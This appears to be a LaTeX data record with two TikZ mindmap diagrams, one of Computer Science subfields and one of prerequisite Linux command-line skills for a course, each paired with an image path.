
\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Computer Science}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {practical}
      [clockwise from=90]
      child { node[concept] {algorithms} }
      child { node[concept] {data structures} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {applied}
      [clockwise from=-30]
      child { node[concept] {databases} }
      child { node[concept] {WWW} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}


\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Course pre requirements skills}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {GNU/Linux}
      [clockwise from=90]
      child { node[concept] {Able to use text editor} }
      child { node[concept] {Understanding of File System Hierarchy} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {Experience with command line}
      [clockwise from=-30]
      child { node[concept] {file manipulation with cp,mv,touch,rm,mkdir etc} }
      child { node[concept] {user management with adduser, passwd, id, getent, usermod, addgroup, useradd, groupadd} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}

\end{document}
